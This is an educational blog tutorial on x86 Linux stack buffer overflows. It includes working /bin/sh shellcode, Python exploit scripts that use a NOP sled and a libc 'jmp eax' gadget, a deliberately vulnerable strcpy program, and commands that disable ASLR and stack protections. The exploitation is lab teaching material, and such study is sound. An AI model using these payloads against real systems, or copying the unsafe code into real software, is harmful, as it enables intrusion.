





2. Linux Exploit Countermeasures and Bypasses (1)
- published
- reading time
- 18 minutes
Before we dive into exploit countermeasures and bypasses, let’s quickly revisit the essentials of a stack overflow. In simple terms, stack overflows happen when we input more data than a program expects, causing it to spill over into other areas of memory. By controlling this overflow, we can manipulate the program’s execution.
Let’s dive deeper into understanding buffer overflows. A buffer is simply a designated space in memory used to store data, often a fixed-size region allocated for handling input or temporary data. When more data than the buffer’s size is written, it spills over into adjacent memory regions—a phenomenon we call buffer overflow.
The following image illustrates the structure of a buffer and how it resides in memory:

In the illustration above, we have a character buffer defined as char buff[5], meaning it holds 5 bytes. Each element of the buffer is 1 byte in size, so if the address of the first element is 0x100, the second element will be at 0x101, and so on, with the fifth element at 0x104.
Now, if we write more than 5 bytes into this buffer (like filling it with extra As), we begin to overwrite data at addresses immediately following 0x104. This overflow is the beginning of potential unintended behavior, as data outside the buffer is altered—an introduction to buffer overflow mechanics.
In the following code we will call a function which allocates space for buffer in its stack frame.
#include <stdio.h>
void newFun() {
char pass[8]="ABCD";
char buff[4];
scanf("%s",buff);
printf("pass :%s\n",pass);
printf("buff :%s\n",buff);
}
int main() {
newFun();
}
This C program defines two local variables in newFun(): pass (a buffer of 8 bytes) and buff (a buffer of 4 bytes). scanf() reads user input into buff, and both buffers are printed afterward.
gcc -z execstack -m32 -fno-stack-protector stack.c -o stack
The disassembled code for newFun() looks like this:
pwndbg> disass newFun
Dump of assembler code for function newFun:
0x0000119d <+0>: push ebp
0x0000119e <+1>: mov ebp,esp
0x000011a0 <+3>: push ebx
0x000011a1 <+4>: sub esp,0x14
0x000011a4 <+7>: call 0x10a0 <__x86.get_pc_thunk.bx>
0x000011a9 <+12>: add ebx,0x2e4b
0x000011af <+18>: mov DWORD PTR [ebp-0x10],0x44434241
0x000011b6 <+25>: mov DWORD PTR [ebp-0xc],0x0
0x000011bd <+32>: sub esp,0x8
0x000011c0 <+35>: lea eax,[ebp-0x14]
0x000011c3 <+38>: push eax
0x000011c4 <+39>: lea eax,[ebx-0x1fec]
0x000011ca <+45>: push eax
0x000011cb <+46>: call 0x1050 <__isoc99_scanf@plt>
0x000011d0 <+51>: add esp,0x10
0x000011d3 <+54>: sub esp,0x8
0x000011d6 <+57>: lea eax,[ebp-0x10]
0x000011d9 <+60>: push eax
0x000011da <+61>: lea eax,[ebx-0x1fe9]
0x000011e0 <+67>: push eax
0x000011e1 <+68>: call 0x1040 <printf@plt>
0x000011e6 <+73>: add esp,0x10
0x000011e9 <+76>: sub esp,0x8
0x000011ec <+79>: lea eax,[ebp-0x14]
0x000011ef <+82>: push eax
0x000011f0 <+83>: lea eax,[ebx-0x1fdf]
0x000011f6 <+89>: push eax
0x000011f7 <+90>: call 0x1040 <printf@plt>
0x000011fc <+95>: add esp,0x10
0x000011ff <+98>: nop
0x00001200 <+99>: mov ebx,DWORD PTR [ebp-0x4]
0x00001203 <+102>: leave
0x00001204 <+103>: ret
Prologue and Epilogue in newFun
The prologue in newFun() prepares the function’s stack frame:
push ebp- Saves the previous frame’s base pointer.mov ebp, esp- Setsebpas the new base pointer.sub esp, 0x14- Allocates space for local variables (passandbuff) by moving the stack pointer down.
The epilogue restores the stack to its previous state and exits the function:
leave- Cleans up by restoringebpand adjustingesp.ret- Pops the saved return address from the stack intoeip, returning control to the calling function.
After space is allocated for the buffers pass and buff in newFun(), the pass buffer is initialized with "ABCD". This data is stored in memory as 0x44434241, where each byte represents one character in ASCII:
- 0x41 for ‘A’
- 0x42 for ‘B’
- 0x43 for ‘C’
- 0x44 for ‘D’
In little-endian format, however, 0x44434241 is stored in reverse order in memory, appearing as "DCBA".
Afterward, at ebp-0xc, a 0x0 (null byte) is added, marking the end of the pass string. This ensures that any function interpreting pass will treat it as a null-terminated string, stopping at this byte.
Since the stack grows downward, pass is allocated first at a higher memory address, followed by buff at a slightly lower address. Let’s examine how pass and buff are laid out in memory within the function’s stack frame:
passis an 8-byte buffer starting atebp - 0x10(16 bytes below the base pointer).buffis a 4-byte buffer located just below pass, starting atebp - 0x14.
Here’s what the stack frame layout might look like:
Higher Addresses
+------------------+ <- Previous stack frame
| arguments | <- Function arguments if any
+------------------+
| return address | <- Address to return to main after newFun()
+------------------+
| ebp | <- Saved base pointer (old ebp)
+------------------+
| ebx | <- Saved ebx register
+------------------+
| Some Junk | <- extra allocated space from `sub esp, 0x14` of 4 bytes
+------------------+
| pass[8] ("ABCD") | <- char pass[8] (stored as `0x44434241`)
+------------------+
| buff[4] | <- char buff[4]
+------------------+
| Local vars |
| .... |
+------------------+ <- esp (top of stack)
Lower Addresses
In this example, let’s examine how overflowing the buff buffer impacts other variables in memory.
When we provide an input like "XXXX", this will perfectly fill the buff buffer without overflowing into neighboring memory. However, if we add one more character, such as "XXXXD", this extra character will start to overwrite the adjacent pass buffer, specifically the first byte that currently holds ‘A’. Let’s see what happens when we use "XXXXDEAD" as our input.
$ ./stack
XXXXDEAD
pass :DEAD
buff :XXXXDEAD
As we see in the output, we’ve successfully overwritten the pass buffer with our input data. By examining the stack frame layout, we can determine that the pass buffer has a size of 8 bytes. If we exceed these 8 bytes, the following bytes in our input will start to overwrite saved registers like EBX and EBP.
Let’s try to overwrite several specific locations in the stack. We’ll structure our input as follows:
AAAA (fills buff)
BBBBBBBB (fills pass)
CCCC (fills the extra 4-byte junk area)
CAFE (to overwrite EBX)
BABE (to overwrite EBP)
DEAD (which will overwrite the return address, and therefore EIP)
After overwriting EBP, we directly target the return address pushed onto the stack before the function prologue, which will be loaded into EIP by the ret instruction.
By structuring our input this way, we can observe how a carefully crafted buffer overflow affects program flow.
To observe the effects of our input, let’s run the program and examine the output:
$ ./stack
AAAABBBBBBBBCCCCCAFEBABEDEAD
pass :BBBBBBBBCCCCCAFEBABEDEAD
buff :AAAABBBBBBBBCCCCCAFEBABEDEAD
Segmentation fault
To dive deeper, let’s enable core dump generation to capture the program’s state at the moment of the crash:
$ ulimit -c unlimited
$ ./stack
AAAABBBBBBBBCCCCCAFEBABEDEAD
pass :BBBBBBBBCCCCCAFEBABEDEAD
buff :AAAABBBBBBBBCCCCCAFEBABEDEAD
Segmentation fault (core dumped)
With the core dump generated, we can analyze it using gdb to confirm if our input successfully overwrote critical parts of the stack, including EBX, EBP, and EIP.
$ gdb -core core
Core was generated by `./stack'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0 0x44414544 in ?? ()
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────
EAX 0x23
EBX 0x45464143 ('CAFE')
ECX 0
EDX 0
EDI 0xf7f55b60 ◂— 0
ESI 0xffdf331c —▸ 0xffdf4934 ◂— 'SHELL=/usr/bin/bash'
EBP 0x45424142 ('BABE')
ESP 0xffdf3250 ◂— 0
EIP 0x44414544 ('DEAD')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x44414544
The output shows that:
EBXhas been overwritten with 0x45464143 (“CAFE”).EBPhas been overwritten with 0x45424142 (“BABE”).EIPhas been overwritten with 0x44414544 (“DEAD”).
The diagram below, created by me, will help clarify the concepts discussed. 😊

Now that you have a solid understanding of buffer overflow, let’s shift our focus away from using the win function, as we did in the previous section of this series. We will briefly explore the concept of shellcode. A more in-depth explanation of shellcode will be provided in a later part of this series.
Shellcode 101
Shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is typically written in assembly language and is designed to execute a specific function when injected into a running process. Shellcode gets its name because it often spawns a command shell, allowing an attacker to execute arbitrary commands on the compromised system.
Types of Shellcode
- Local Shellcode: This type of shellcode is executed on the local machine and is typically used to gain shell access without requiring network communication.
- Remote Shellcode: Remote shellcode is designed to connect to an attacker’s machine over the network, providing the attacker with a remote command shell.
- Bind Shellcode: This shellcode binds a shell to a specific port on the target machine, allowing the attacker to connect to it remotely.
- Reverse Shellcode: In contrast to bind shellcode, reverse shellcode initiates a connection back to the attacker’s machine, which is listening on a specific port for incoming connections.
This is how x86 assembly code for execve("/bin/sh") looks like:
section .text
global _start
_start:
xor ecx,ecx
push 0xb
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
int 0x80
I understand this can be a bit challenging, but we will cover writing shellcode in more detail in a later section. For now, let’s focus on assembling and linking the shellcode to check if it runs correctly on your system.
Here’s how to do it:
$ sudo apt update
$ sudo apt install nasm
$ nasm -f elf32 shell.s -o shell.o
$ ld -m elf_i386 shell.o -o shell
$ ./shell
$
After executing the last command, a /bin/sh shell should open on your system.
Extracting Shellcode
Once you have successfully executed the shellcode and opened a shell, you might want to extract the raw shellcode bytes for further use or experimentation. Here’s a simple way to extract the shellcode from the executable.
$ objdump -M intel -d shell
shell: file format elf32-i386
Disassembly of section .text:
08049000 <_start>:
8049000: 31 c9 xor ecx,ecx
8049002: 6a 0b push 0xb
8049004: 58 pop eax
8049005: 51 push ecx
8049006: 68 2f 2f 73 68 push 0x68732f2f
804900b: 68 2f 62 69 6e push 0x6e69622f
8049010: 89 e3 mov ebx,esp
8049012: cd 80 int 0x80
The shellcode for executing a /bin/sh will be:
"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80".
To automate the extraction of shellcode from the binary, you can use the following command:
$ objdump -d ./shell | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/'
Understanding NOPs (No Operation Instructions)
In assembly language, a NOP (No Operation) instruction is a single-byte instruction that does nothing when executed. Its primary purpose is to create a delay or to align code, but in the context of shellcoding and exploitation, NOPs serve a crucial role. NOPs are often used in what is known as a “NOP sled” or “NOP slide.” This technique helps increase the chances of successfully hitting the shellcode during an exploit. By placing multiple NOP instructions before the shellcode in memory, you create a larger area of executable code that the processor can reach. When an attacker overwrites the return address to point to a NOP sled, they can land anywhere within that range and still eventually reach the shellcode.
For the x86 architecture, the NOP instruction is represented by the byte 0x90. When included in an exploit or shellcode, 0x90 instructs the processor to do nothing, effectively allowing the program to slide through it until it reaches the intended executable code, such as shellcode.
So that was a quick overview of shellcode! Now, let’s dive into how we can redirect our program’s flow to execute that shellcode! 😈💥
Let’s take a look at the following vulnerable program, exp1.c:
// gcc -m32 -z execstack -fno-stack-protector exp1.c -o exp1
#include <stdio.h>
#include <string.h>
void vuln(char *s) {
char buff[50];
strcpy(buff,s);
}
int main(int argc, char* argv[]) {
vuln(argv[1]);
}
This program accepts an input argument (argv[1]) and copies it into a fixed-size buffer of 50 bytes using the strcpy function. However, it doesn’t perform any bounds checking, making it vulnerable to buffer overflow attacks.
Testing the Vulnerability 💥
Let’s test the program by passing in a string of 100 ‘A’s:
$ ./exp1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
As you can see, the program crashed with a segmentation fault. To analyze this crash, we can enable core dump generation:
$ ulimit -c unlimited
Analyzing the Core Dump 🕵️♂️
➜ 02 ./exp1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ gdb -core core
...
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────
EAX 0xfff3955e ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
EBX 0x41414141 ('AAAA')
ECX 0xfff3a8e0 ◂— 0x414141 /* 'AAA' */
EDX 0xfff395bf ◂— 0x414141 /* 'AAA' */
EDI 0xf7f27b60 ◂— 0
ESI 0xfff39690 —▸ 0xfff3a8e4 ◂— 'SHELL=/usr/bin/bash'
EBP 0x41414141 ('AAAA')
ESP 0xfff395a0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
EIP 0x41414141 ('AAAA')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x41414141
...
Notably, the EIP (Extended Instruction Pointer) has been overwritten with “AAAA,” indicating that we can control the program’s execution flow! 🕹️
Generating a Cyclic Pattern 🔄
Let’s generate a cyclic pattern consisting of 100 characters to help us determine the offset.
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
$ ./exp1 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault (core dumped)
$ gdb -core core
...
EAX 0xffcf460e ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
EBX 0x616f6161 ('aaoa')
ECX 0xffcf58e0 ◂— 0x616161 /* 'aaa' */
EDX 0xffcf466f ◂— 0x616161 /* 'aaa' */
EDI 0xf7f9eb60 ◂— 0
ESI 0xffcf4740 —▸ 0xffcf58e4 ◂— 'SHELL=/usr/bin/bash'
EBP 0x61706161 ('aapa')
ESP 0xffcf4650 ◂— 'aaraaasaaataaauaaavaaawaaaxaaayaaa'
EIP 0x61716161 ('aaqa')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x61716161
...
Using the pwn cyclic -l command, we can determine the offset of the cyclic pattern:
$ pwn cyclic -l 0x61716161
62
Crafting the Exploit 🎯
Now that we know the offset, we can craft our payload. Let’s send 62 ‘A’s followed by 4 ‘B’s:
$ ./exp1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Segmentation fault (core dumped)
$ gdb -core core
...
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────
EAX 0xff9b099e ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
EBX 0x41414141 ('AAAA')
ECX 0xff9b28e0 ◂— 0x424242 /* 'BBB' */
EDX 0xff9b09dd ◂— 0x424242 /* 'BBB' */
EDI 0xf7fafb60 ◂— 0
ESI 0xff9b0ad0 —▸ 0xff9b28e4 ◂— 'SHELL=/usr/bin/bash'
EBP 0x41414141 ('AAAA')
ESP 0xff9b09e0 —▸ 0xff9b2800 ◂— 0
EIP 0x42424242 ('BBBB')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x42424242
...
Success! We have successfully controlled the EIP! 🎉
Now that we’ve successfully controlled the EIP, let’s move on to constructing our exploit! For reference, take a look at the diagram I created for you:

As illustrated in the diagram, we’ll generate our exploit in such a way that the EIP points to our NOP sled. Following the NOP sled, we’ll place our shellcode. If the shellcode doesn’t fill the required length, we can add some “junk” data to pad it out. Finally, we’ll include the address of our NOP sled to overwrite the return address, ensuring the program redirects execution to our NOP sled, ultimately leading to the execution of the shellcode! 🚀
With this approach, we can effectively take control of the program flow and execute our malicious payload. Let’s get to work on crafting this exploit! 💻✨
Note: Please disable Address Space Layout Randomization (ASLR) by running the following command:
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
#!/usr/bin/python2
# exp1.py
offset = 62
payload = "\x90"*10 # 10 NOPS
payload += "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" # /bin/sh shellcode
payload += "A"*(offset-len(payload)) # padding
payload += "BBBB" # EIP
payload += "C"*10 # Junk (not compulsory but in some cases it is useful)
print(payload)
$ ./exp1 $(./exp1.py)
Segmentation fault (core dumped)
$ gdb -core core
...
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────
EAX 0xffc6c7fe ◂— 0x90909090
EBX 0x41414141 ('AAAA')
ECX 0xffc6d8e0 ◂— 0x434343 /* 'CCC' */
EDX 0xffc6c847 ◂— 0x434343 /* 'CCC' */
EDI 0xf7fa9b60 ◂— 0
ESI 0xffc6c930 —▸ 0xffc6d8e4 ◂— 'SHELL=/usr/bin/bash'
EBP 0x41414141 ('AAAA')
ESP 0xffc6c840 ◂— 'CCCCCCCCCC'
EIP 0x42424242 ('BBBB')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x42424242
...
The following diagram, created by me, will help clarify your understanding.

As you can see, instead of using “BBBB” we can directly use the address 0xffffd59e in little-endian format.
#!/usr/bin/python2
# exp1.py
offset = 62
payload = "\x90"*10 # 10 NOPS
payload += "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" # /bin/sh shellcode
payload += "A"*(offset-len(payload)) # padding
# payload += "BBBB" # EIP
payload += "\x9e\xd5\xff\xff" # NOP sled address
payload += "C"*10 # Junk (not compulsory but in some cases it is useful)
print(payload)
I removed the “C” junk, and the exploit worked perfectly:
#!/usr/bin/python2
# exp1.py
offset = 62
payload = "\x90"*10 # 10 NOPS
payload += "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" # /bin/sh shellcode
payload += "A"*(offset-len(payload)) # padding
# payload += "BBBB" # EIP
payload += "\x9e\xd5\xff\xff" # NOP sled address
print(payload)
When we run the exploit, we successfully obtain a shell! 🎉
$ ./exp1 $(./exp1.py)
$ ls
core exp1 exp1.c exp1.py
Now, let’s explore an alternative method to exploit this vulnerability using the jmp eax instruction.
When we used “BBBB” to overwrite EIP and analyze the core dump:
#!/usr/bin/python2
# exp1.py
offset = 62
payload = "\x90"*10 # 10 NOPS
payload += "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" # /bin/sh shellcode
payload += "A"*(offset-len(payload)) # padding
payload += "BBBB" # EIP
print(payload)
$ gdb -core core
Program terminated with signal SIGSEGV, Segmentation fault.
#0 0x42424242 in ?? ()
------- tip of the day (disable with set show-tips off) -------
Use patch <address> '<assembly>' to patch an address with given assembly code
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────
EAX 0xffffd59e ◂— 0x90909090
EBX 0x41414141 ('AAAA')
ECX 0xffffd8e0 ◂— 0x424242 /* 'BBB' */
EDX 0xffffd5dd ◂— 0x424242 /* 'BBB' */
EDI 0xf7ffcb60 ◂— 0
ESI 0xffffd6d0 —▸ 0xffffd8e4 ◂— 'SHELL=/usr/bin/bash'
EBP 0x41414141 ('AAAA')
ESP 0xffffd5e0 —▸ 0xffffd800 —▸ 0xf7fc8000 ◂— 0x464c457f
EIP 0x42424242 ('BBBB')
────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────
Invalid address 0x42424242
...
We notice that, the EAX register points to our NOP sled. This means that if we use an instruction like jmp eax, we will successfully jump to our NOP sled, allowing for a smooth transition into the execution of our shellcode. This brings us to the concept of “gadgets.”
Understanding Gadgets
Gadgets are short sequences of machine instructions that end in a return instruction (such as ret) and can be used in exploitation techniques, particularly in Return-Oriented Programming (ROP). Instead of injecting and executing our shellcode directly, we can chain together these gadgets to perform arbitrary operations.
In the context of our exploit, gadgets allow us to manipulate the flow of execution without relying on traditional shellcode. By finding gadgets within the existing code of the binary or linked libraries, we can create a payload that jumps through these gadgets to reach our NOP sled or directly execute shellcode.
Here’s how it works:
- Finding Gadgets: We use tools like
ROPgadgetorRopperto scan the binary for useful instruction sequences. - Chaining Gadgets: Once we identify useful gadgets, we construct a sequence that leads to the execution of our payload.
- Execution Control: By carefully controlling the stack and return addresses, we can redirect execution to our desired locations.
For more insights on searching for gadgets using various tools, feel free to check out my blog on gadget hunting! 📚🔍
Let’s explore how to use ropper to find useful gadgets in libc, which is typically loaded whenever a dynamically linked executable runs. We’ve already confirmed that our binary is dynamically linked by checking its dependencies with ldd.
First, we check the linked libraries:
$ ldd exp1
linux-gate.so.1 (0xf7fc6000)
libc.so.6 => /lib32/libc.so.6 (0xf7d5a000)
/lib/ld-linux.so.2 (0xf7fc8000)
This confirms that libc.so.6 is being used, and we can find it at /usr/lib32/libc.so.6.
Now, let’s search for the jmp eax gadget using ropper:
$ ropper --file /usr/lib32/libc.so.6 --search "jmp eax"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp eax
[INFO] File: /usr/lib32/libc.so.6
0x00024fe3: jmp eax;
As shown, we found the jmp eax gadget at the address 0x00024fe3. This gadget will allow us to jump to the address contained in the EAX register, which, as previously noted, points to our NOP sled.
When we use ropper to locate gadgets, it provides us with the gadget’s offset within the libc binary. To use this gadget in our exploit, we need to calculate its absolute address by adding the base address of libc to the offset returned by ropper.
Finding the libc Base Address
To locate the base address of libc load our binary in gdb, follow these steps:
$ gdb ./exp1
pwndbg> b main
Breakpoint 1 at 0x565561c6
pwndbg> r
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
Start End Perm Size Offset File
0x56555000 0x56556000 r--p 1000 0 /home/kali/Desktop/Blogs/Materials/x86_exp_dev/02/exp1
0x56556000 0x56557000 r-xp 1000 1000 /home/kali/Desktop/Blogs/Materials/x86_exp_dev/02/exp1
0x56557000 0x56558000 r--p 1000 2000 /home/kali/Desktop/Blogs/Materials/x86_exp_dev/02/exp1
0x56558000 0x56559000 r--p 1000 2000 /home/kali/Desktop/Blogs/Materials/x86_exp_dev/02/exp1
0x56559000 0x5655a000 rw-p 1000 3000 /home/kali/Desktop/Blogs/Materials/x86_exp_dev/02/exp1
0xf7d5f000 0xf7d82000 r--p 23000 0 /usr/lib32/libc.so.6
0xf7d82000 0xf7f0e000 r-xp 18c000 23000 /usr/lib32/libc.so.6
0xf7f0e000 0xf7f93000 r--p 85000 1af000 /usr/lib32/libc.so.6
0xf7f93000 0xf7f95000 r--p 2000 234000 /usr/lib32/libc.so.6
0xf7f95000 0xf7f96000 rw-p 1000 236000 /usr/lib32/libc.so.6
0xf7f96000 0xf7fa0000 rw-p a000 0 [anon_f7f96]
0xf7fc0000 0xf7fc2000 rw-p 2000 0 [anon_f7fc0]
0xf7fc2000 0xf7fc6000 r--p 4000 0 [vvar]
0xf7fc6000 0xf7fc8000 r-xp 2000 0 [vdso]
0xf7fc8000 0xf7fc9000 r--p 1000 0 /usr/lib32/ld-linux.so.2
0xf7fc9000 0xf7fed000 r-xp 24000 1000 /usr/lib32/ld-linux.so.2
0xf7fed000 0xf7ffb000 r--p e000 25000 /usr/lib32/ld-linux.so.2
0xf7ffb000 0xf7ffd000 r--p 2000 33000 /usr/lib32/ld-linux.so.2
0xf7ffd000 0xf7ffe000 rw-p 1000 35000 /usr/lib32/ld-linux.so.2
0xfffdd000 0xffffe000 rwxp 21000 0 [stack]
From this output, the base address of libc is noted as 0xf7d5f000. To verify the actual address of our desired gadget in memory, we add this base address to the offset of the gadget. Thus, using 0xf7d5f000 as our libc base address and adding it to the offset 0x00024fe3, we obtain the address of the jmp eax gadget.
pwndbg> p/x 0xf7d5f000 + 0x00024fe3
$1 = 0xf7d83fe3
pwndbg> x/i 0xf7d83fe3
0xf7d83fe3: jmp eax
This confirms that 0xf7d83fe3 is indeed the correct address of the jmp eax gadget. 🎉
Following diagram will clarify it further:

Let’s update our exploit and use struct module:
#!/usr/bin/python2
# exp1.py
import struct
offset = 62
libc_base = 0xf7d5f000
jmp_eax = 0x00024fe3
payload = "\x90"*10 # 10 NOPS
payload += "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" # /bin/sh shellcode
payload += "A"*(offset-len(payload)) # padding
# payload += "BBBB" # EIP
payload += struct.pack("<I",libc_base+jmp_eax) # EIP
print(payload)
With this updated exploit, running the command will lead us to a shell:
./exp1 $(./exp1.py)
$ ls
core exp1 exp1.c exp1.py
Now we can see that we successfully achieved shell! 🎉💻✨
You might be wondering, “Why aren’t there any mitigations for attacks like this?” 🤔 The good news is that there are several security mitigations in place! 🛡️ Let’s dive into some of the most common ones, one by one. This way, we can better understand how they work to protect against these types of vulnerabilities and keep our systems safe! 🚀